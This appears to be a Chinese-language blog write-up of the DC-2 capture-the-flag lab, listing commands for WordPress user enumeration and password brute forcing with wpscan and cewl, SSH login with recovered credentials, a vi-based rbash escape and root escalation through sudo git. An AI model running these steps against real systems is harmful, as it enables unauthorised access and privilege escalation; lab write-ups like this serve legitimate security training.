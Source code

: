 ```yaml
---
layout: post
title: DC-2
subtitle: DC-2
date: 2025-07-08 09:27
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

主机发现

![Pasted%20image%2020250708092821.png300](https://img.ghostliner.top/JuHdN2.png)

发现`192.168.163.131`，端口扫描
![Pasted%20image%2020250708092929.png300](https://img.ghostliner.top/siB1ce.png)

访问80端口，被重定向到 http://DC-2 ，修改hosts即可访问

目录扫描，发现wp-admin后台登陆路径

访问站点，获取到flag1，按提示使用cewl
![Pasted%20image%2020250708093111.png300](https://img.ghostliner.top/8nOtgC.png)

```shell
cewl http://dc-2/wp-login.php -w pass.txt
wpscan --url http://dc-2/ -e u
# admin jerry tom
echo -e "admin\njerry\ntom" > user.txt
wpscan --url http://DC-2 -e -U user.txt -P pass.txt
# Username: jerry, Password: adipiscing
# Username: tom, Password: parturient
```

![Pasted%20image%2020250708100011.png300](https://img.ghostliner.top/6uYNfN.png)

![Pasted%20image%2020250708095958.png300](https://img.ghostliner.top/1iq7uw.png)

```shell
ssh tom@DC-2 -p 7744
compgen -c
vi flag3.txt
```

获取flag3

![Pasted%20image%2020250708100605.png300](https://img.ghostliner.top/fAT1Xa.png)

rbash提权

```shell
vi flag3.php
:set shell=/bin/sh
:shell
```

进入sh

```shell
export PATH=$PATH:/bin
su jerry
# 输入密码
```

获取flag4

![image.png300](https://img.ghostliner.top/g9FLWN.png)

```shell
sudo -l
# 显示：(root) NOPASSWD: /usr/bin/git
sudo git help config
!/bin/bash
```

提权到root用户，获取flag5

![image.png300](https://img.ghostliner.top/7JcS8d.png)
